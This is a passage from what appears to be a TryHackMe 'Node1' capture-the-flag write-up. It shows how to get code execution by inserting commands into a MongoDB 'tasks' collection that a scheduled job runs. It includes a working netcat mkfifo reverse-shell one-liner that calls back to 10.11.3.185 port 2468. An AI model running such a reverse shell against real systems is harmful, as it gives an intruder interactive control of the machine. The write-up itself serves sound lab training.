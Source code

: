 {% highlight bash %}
db.tasks.insert({ "cmd": “python3 /tmp/sayhello.py” });
{% endhighlight %}

- Note: syntax errors may show up due to non-printable characters depending on where you copy/paste code from.  Try to manually enter the command if this happens.

![Python sender executed](/assets/writeups/TryHackMe/Node1/14-19.png)
![Python listener executed](/assets/writeups/TryHackMe/Node1/14-20.png)

- If you want to use the netcat method since it is available to us (and it is admittedly cleaner and less buggy while poking around), you can enter:

{% highlight bash %}
db.tasks.insert({ "cmd": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.3.185 2468 >/tmp/f" });
{% endhighlight %}

![Netcat sender executed](/assets/writeups/TryHackMe/Node1/14-21.png)
![Netcat listener executed](/assets/writeups/TryHackMe/Node1/14-22.png)
